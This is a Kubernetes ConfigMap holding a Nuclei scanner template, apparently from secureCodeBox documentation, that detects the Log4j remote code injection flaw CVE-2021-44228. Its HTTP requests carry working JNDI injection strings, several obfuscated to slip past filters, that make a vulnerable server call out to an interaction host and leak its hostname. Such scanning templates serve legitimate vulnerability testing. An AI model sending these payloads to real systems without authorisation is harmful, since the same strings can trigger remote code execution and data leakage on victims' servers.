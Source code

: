 ```yaml
kind: ConfigMap
metadata:
  name: nuclei-template-log4j
data:
  log4j-template.yaml: |
 
    id: CVE-2021-44228
 
    info:
      name: Remote code injection in Log4j
      author: melbadry9,dhiyaneshDK,daffainfo,J12934
      severity: critical
      description: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
      reference:
        - https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
        - https://www.lunasec.io/docs/blog/log4j-zero-day/
        - https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
      tags: cve,cve2021,rce,oast,log4j
 
    requests:
      - raw:
          - |
            GET /?x=${jndi:ldap://${hostName}.{{interactsh-url}}/a} HTTP/1.1
            Host: {{Hostname}}
            User-Agent: ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.{{interactsh-url}}}
            Referer: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
            X-Forwarded-For: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
            Authentication: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
          - |
            GET / HTTP/1.1
            Host: {{Hostname}}
            X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.{{interactsh-url}}}
 
        matchers-condition: and
        matchers:
          - type: word
            part: interactsh_protocol  # Confirms the DNS Interaction
            words:
              - "dns"
 
          - type: regex
            part: interactsh_request
            regex:
              - '([a-z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+' # Match for extracted ${hostName} variable
 
        extractors:
          - type: regex
            part: interactsh_request
            group: 1
            regex:
              - '([a-z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'   # Print extracted ${hostName} in output
```


[scb-slack]: https://join.slack.com/t/securecodebox/shared_invite/enQtNDU3MTUyOTM0NTMwLTBjOWRjNjVkNGEyMjQ0ZGMyNDdlYTQxYWQ4MzNiNGY3MDMxNThkZjJmMzY2NDRhMTk3ZWM3OWFkYmY1YzUxNTU%22
[scb-repo]: https://github.com/secureCodeBox/secureCodeBox/